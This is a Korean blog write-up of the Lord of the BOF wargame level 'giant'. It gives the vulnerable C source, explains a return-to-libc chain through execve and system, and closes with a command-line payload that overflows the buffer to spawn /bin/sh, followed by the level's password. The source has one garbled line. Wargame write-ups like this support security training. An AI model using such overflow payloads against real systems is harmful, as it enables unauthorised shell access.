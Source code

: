 ```yaml
---
layout: post
title:  "[LOB]Level14. giant"
subtitle:   "[LOB]bugbear → giant"
categories: Write-up
tags:
- Wargame
- LOB
- Write-up
---
```


## keyword : RTL2, only execve

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - giant
        - RTL2
*/

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

main(int argc, char *argv[])
{
	char buffer[40];
	FILE *fp;
	char *lib_addr, *execve_offset, *execve_addr;
	char *ret;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// gain address of execve
	fp = popen("/usr/bin/ldd /home/giant/assassin | /bin/grep libc | /bin/awk '{print $4}'", "r");
	fgets(buffer, 255, fp);
	sscanf(buffer, "(%x)", &lib_addr);
	fclose(fp);

	fp = popen("/usr/bin/nm /lib/libc.so.6 | /bin/grep __execve | /bin/awk '{print $1}'", "r");
	fgets(buffer, 255, fp);
	sscanf(buffer, "%x", &execve_offset);
	fclose(fp);

	execve_addr = lib_addr + (int));
	// end

	memcpy(&ret, &(argv[1][44]), 4);
	if(ret != execve_addr)
	{
		printf("You must use execve!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

소스코드에는 다음단계의 libc주소를 파싱해서 가져와서 lib_addr에 저장을 한다.

그리고 해당 libc에서 __execve 함수 주소의  offset을 구해서 execve_offset에 저장을 한다.

`argv[1][44]` 에 주소를  ret에 저장을 하고 해당 값이 다르면 "You must use execve!"문자열을 출력하고 프로그램을 종료된다.

ret주소에 execve주소로 Buffer Overflow를 시키고 인자값으로 system함수의 주소를 넣어준다. 

system  함수의 인자로 "/bin/sh"의 주소를 넣어주면 payload가 완성된다.



execve_addr = ebp-56  => 0x080da023 / 0x400a9d48

system : 0x40058ae0

"/bin/sh" = 0x400fbff9

```sh
./giant "`python -c 'print "A"*44+"\x48\x9d\x0a\x40"+"\xe0\x8a\x05\x40"*2+"\xf9\xbf\x0f\x40"'`"
```

"\x0a"를 엔터로 인식하기 때문에 페이로드 전체를 "" 로 묶어준다.



**giant / one step closer**